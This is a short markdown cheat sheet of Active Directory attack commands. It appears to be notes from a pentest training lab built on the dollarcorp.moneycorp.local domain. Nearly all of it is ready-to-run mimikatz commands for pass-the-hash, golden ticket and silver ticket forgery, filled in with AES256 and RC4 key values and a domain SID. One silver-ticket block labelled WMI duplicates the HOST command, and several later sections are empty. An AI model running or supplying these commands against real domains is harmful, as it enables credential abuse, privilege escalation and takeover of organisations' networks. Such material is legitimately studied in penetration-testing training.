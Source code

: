 # Tickets

## Pass The Hash
```
C:\AD\Tools\mimikatz.exe "privilege::debug" "sekurlsa::pth /domain:dollarcorp.moneycorp.local /user:ciadmin /aes256:1bbe86f1b5285109dd1450b55ed8851c220b81cc187f9af64e4048ed25083879 /run:cmd" "exit"
```

## Golden Ticket

Access Filesistem:
```
C:\AD\Tools\mimikatz.exe "privilege::debug" "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848  /sid:S-1-5-21-719815819-3726368948-3917688648 /startoffset:0 endin:600 /renewmax:10080 /ptt" "exit"
```
```
Invoke-Mimi -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 endin:600 /renewmax:10080 /ptt"'
```

## Silver Ticket

Access HOST (schtask)
```
C:\AD\Tools\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
Access WMI:
```
C:\AD\Tools\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
```
C:\AD\Tools\mimikatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:9407a301944bf60d059322952f56718a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

## Golden Ticket intra-forest domain
```
```

## Diamon Ticket
```
```

## Constrained Delegation
```
```

## Unconstrained Delegation
```
```
